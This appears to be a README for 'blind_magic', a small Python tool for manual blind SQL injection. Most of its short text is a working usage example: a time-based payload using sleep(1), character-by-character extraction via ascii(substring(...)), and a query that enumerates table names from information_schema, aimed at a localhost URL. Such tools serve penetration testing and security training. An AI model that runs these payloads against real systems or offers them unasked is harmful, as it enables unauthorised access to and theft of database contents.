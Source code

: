 # blind_magic 0.1.1 (first blood)
Manual Blind SQL Injection

Some trick:
I supply to you 5 loop variable l1 to l5 {l1} {l2} {l3} {l4} {l5}

Blind query statament:
{CONDITION_QUERY}
{QUERY}
{OPERATOR}
{CHAR}

example:

blind_magic = Blind_magic()
blind_magic.l(13,5,0,0,0,1,0,0,0,0)
blind_magic.url = "http://localhost/?id="
blind_magic.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"
blind_magic.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"
blind_magic.query = "select table_name from information_schema.tables limit {l2},1"
blind_magic.run()
print blind_magic.result
